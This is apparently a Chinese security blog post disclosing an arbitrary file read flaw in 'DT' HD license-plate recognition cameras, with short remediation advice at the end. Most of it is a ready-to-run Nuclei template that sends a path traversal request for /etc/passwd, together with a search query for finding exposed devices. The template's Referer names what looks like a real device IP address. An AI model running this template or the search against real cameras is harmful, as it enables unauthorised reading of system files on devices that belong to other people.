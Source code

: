 #  DT-高清车牌识别摄像机存在任意文件读取漏洞   
原创 骇客安全  骇客安全   2025-02-28 11:51  
  
```
app="DT-高清车牌识别摄像机"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991OK5H7iaQX5vI9HXtia1oerI51trdxwAN2mzeIl2ibqqmibweJFmUeXiaicLECicsht6OumNKwdI7pUMdiczQ/640?wx_fmt=png&from=appmsg "null")  
  
2、部分界面如下   
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991OK5H7iaQX5vI9HXtia1oerI51baibFwRGics99IRIYrtvXLWyUXrk9b8JUyBD6qkMXUdeh5yMkBohAcw/640?wx_fmt=png&from=appmsg "null")  
  
  
3、隐患url，验证如下  
```
id: DT-information-leakage

info:
  name: DT-information-leakage
  author: xxxx
  severity: high

http:
- raw:
  - |+
    @timeout: 30s
    GET /../../../../etc/passwd HTTP/1.1
    Host: {{Hostname}}
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://116.131.20.250:5001/


  max-redirects: 3
  matchers-condition: and
  matchers:
  - type: word
    part: body
    words:
    - 'root:'
    condition: and
```  
### 修复建议  
  
1、请联系厂商进行修复。   
2、如非必要，禁止公网访问该系统。   
3、设置白名单访问。  
  
  
  
